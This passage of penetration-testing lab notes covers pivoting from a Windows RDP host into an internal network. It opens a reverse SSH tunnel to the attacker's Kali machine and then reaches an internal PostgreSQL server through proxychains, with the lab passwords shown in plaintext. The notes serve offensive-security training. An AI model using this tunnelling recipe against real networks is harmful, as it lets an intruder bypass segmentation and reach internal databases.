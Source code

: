 ## Windows

### SSH

On Windows versions with SSH installed, the `ssh-*` utilities can be found in `%systemdrive%\Windows\System32\OpenSSH`. Our scenario:

* We have RDP access to `MULTISERVER03` (`198.168.177.64`).
* We need to pivot into the internal network to reach services like PostgreSQL on `PGDATABASE01` (`10.4.177.215`).
* Direct outbound connections from Kali to internal targets are blocked.
* Only RDP is allowed into `MULTISERVER03`.

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252FP5R2T2vhrpqfxDExzCnu%252Fport_forward_ssh-exe.png%3Falt%3Dmedia%26token%3Dddac979d-92cb-4881-a3ad-45ac118628cd&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=3f41c516&#x26;sv=2" alt=""><figcaption></figcaption></figure>

{% tabs %}
{% tab title="1. SSH Server & RDP" %}
Start zn SSH server on Kali and RDP into `MULTISERVER03`.

```bash
# ssh server on Kali
$ sudo service ssh start
Starting OpenBSD Secure Shell server: sshd.

# RDP to MULT03
$ xfreerdp /u:rdp_admin /p:'P@ssw0rd!' /v:192.168.177.64
```
{% endtab %}

{% tab title="2. Port Forward" %}
Create the remote port forward on `MULTISERVER03`.

```powershell
C:\Windows\system32>whoami
multiserver03\rdp_admin
# check if SSH is installed
C:\Windows\system32>where ssh
C:\Windows\System32\OpenSSH\ssh.exe
# check if SSH version is > 7.6
C:\Windows\system32>ssh.exe -V
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
# create the remote port forward
C:\Windows\system32>ssh -N -R 9998 x7331@192.168.45.235
```
{% endtab %}

{% tab title="3. Confirm & Connect" %}
{% code overflow="wrap" %}
```bash
# confirm on Kali
$ sudo netstat -ntlp | grep 9998
tcp        0      0 127.0.0.1:9998  0.0.0.0:*       LISTEN      98/sshd-session: x7
tcp6       0      0 ::1:9998        :::*            LISTEN      98/sshd-session: x7

# config proxychains
$ tail -n1 /etc/proxychains.conf
socks5  127.0.0.1 9998

# connect to PGDATABASE01
$ sudo proxychains psql -h 10.4.177.215 -U postgres
...
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.177.215:5432  ...  OK
Password for user postgres: # D@t4basePassw0rd!
...

postgres=#
```